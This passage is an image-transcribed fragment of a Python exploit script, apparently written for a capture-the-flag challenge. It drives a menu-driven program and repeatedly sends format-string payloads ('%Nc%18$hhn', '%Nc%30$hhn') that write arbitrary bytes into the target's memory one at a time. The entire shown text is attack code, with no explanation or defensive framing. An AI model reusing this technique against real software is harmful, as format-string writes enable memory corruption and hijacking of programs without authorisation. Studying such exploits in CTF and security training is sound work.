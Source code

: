 ```python
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(x & 0xff)+'c%18$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')

# start writing bytes       
#---write first byte
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(i & 0xff) + 'c%30$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')


    sendln('3')
    readtil('change?')
    sendln('BAR4')
    readtil('>>>')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x+1) & 0xff)+'c%18$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((i >> 8) & 0xff) + 'c%30$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x+2) & 0xff)+'c%18$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')

    sendln('3')
```